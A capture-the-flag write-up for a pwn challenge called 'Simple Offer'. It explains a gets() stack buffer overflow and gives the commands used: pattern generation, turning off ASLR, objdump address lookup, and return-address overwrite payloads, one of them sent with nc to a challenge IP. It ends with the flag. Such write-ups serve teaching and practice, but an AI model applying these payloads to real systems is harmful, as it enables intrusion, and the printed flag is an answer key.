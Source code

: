 Challenge: Simple Offer
Points: 100
Category: Pwn

![Alt text](screenshots/simpleoffer1.png)

C code, along with a docker file was provided. So, let's try to understand the code first.

![Alt text](screenshots/simpleoffer2.png)

This program contains a classic stack buffer overflow vulnerability that allows an attacker to modify the return address and hijack control flow.

The vuln() function uses the dangerous gets() function to read user input into a fixed size buffer buf[32]. gets() does not perform any bounds checking, so an attacker can provide a string longer than 32 bytes. This will overflow buf and overwrite the stack, including the return address that was saved when vuln() was called. By carefully crafting the input string, an attacker can control the value of the overwritten return address. When vuln() returns, it will jump to the address specified by the attacker instead of returning to main().

The win() function prints the contents of the file flag.txt. By overwriting the return address with the address of win(), an attacker can redirect code execution to win() after vuln() returns. This essentially allows the attacker to "hijack" the normal program flow and execute arbitrary code (in this case win()) to print the contents of flag.txt.

Let's try to do a buffer overflow attack on bof.c in Kali Linux.

Step 1: Create a pattern using the following command and send it to input.txt file.

msf-pattern_create -l 100 > input.txt

![Alt text](screenshots/simpleoffer3.png)

Step 2: Disable Address Space Layout Randomization (ASLR) when testing buffer overflows locally to have predictable memory addresses for developing clean proof-of-concept exploits. With ASLR enabled, memory mappings are randomized, making it difficult to hijack control flow. Disabling ASLR provides static memory mappings so the exact addresses of stack, heap, libraries, and code are known. This allows reliably redirecting execution in exploits by overwriting return pointers with hardcoded addresses.

echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 

![Alt text](screenshots/simpleoffer4.png)

Step 3: Debug bof using "gdb", using input.txt as input (run < input.txt). We see that we are able to overwrite and create a segmentation fault.

![Alt text](screenshots/simpleoffer5.png)

Step 4: Now, let's check what the offset was. We get a match at 40.

msf-pattern_offset -q 62413362 

![Alt text](screenshots/simpleoffer6.png)

Step 5: Now, let's find the return address of win().

objdump -t ./bof | grep " win"

![Alt text](screenshots/simpleoffer7.png)

Step 6: Time for final payload to be created and passed to ./bof. (Create a flag.txt so that it can be fetched)

python -c 'print("A" * 40 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | ./bof

![Alt text](screenshots/simpleoffer8.png)

Step 7: Time to try this on the production instance of the challenge.
Note: Amazon Team suggested to use 401196 as the address for production instead of 401176.
Offset of 40 didnt work for that, so I tried by keeping offset as 39 instead of 40.

python -c 'print("A" * 39 + "\x96\x11\x40\x00\x00\x00\x00\x00")' | nc 3.142.83.254 1234

![Alt text](screenshots/simpleoffer9.png)

FLAG: Amazon{0verfl0w_mad3_th3_dr3@m_c0me_tru3}




